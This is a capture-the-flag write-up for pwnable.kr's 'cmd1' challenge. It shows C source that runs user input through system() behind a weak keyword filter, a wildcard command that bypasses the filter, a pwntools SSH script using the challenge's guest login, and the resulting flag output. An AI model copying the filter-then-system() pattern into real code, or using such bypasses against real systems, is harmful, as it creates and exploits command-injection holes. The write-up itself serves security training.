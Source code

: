 #Pwnable.kr: Toddler's Bottle
##cmd1

For this challenge we just need to bypass a simple filter in order to print out the flag. The source code is shown below and shows that the filter only just checks for the strings *"flag"*, *"sh"*, and *"tmp"* within our input argument then if the filter does not catch anything passes our argument to *system( argv[1] )*.

*cmd1.c*
```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/thankyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```

Of note, the *cat* command is not filtered out and the *flag* file is the only file within the directory that starts with f. However, since the *PATH* environment variable is changed before calling *system()*, we will have to directly specify the location of the *cat* program, which is usually located at */bin/cat*. Therefore we can just run the following command and get our flag.

```bash
./cmd1 '/bin/cat f*'
```

We can write up a nice little python script to do this for us.

```python
from pwn import *

s = ssh(host='pwnable.kr', port=2222, user='cmd1', password='guest')
p = s.process(["./cmd1", "/bin/cat f*"])
print(p.recvline())
```
Taa daa! We got the flag!

```
[+] Connecting to pwnable.kr on port 2222: Done
[*] cmd1@pwnable.kr:
    Distro    Ubuntu 16.04
    OS:       linux
    Arch:     amd64
    Version:  4.4.179
    ASLR:     Enabled
[+] Starting remote process './cmd1' on pwnable.kr: pid 226542
mommy now I get what PATH environment is for :)
```

Just another classic reminder of never letting users have direct input to executing shell commands.
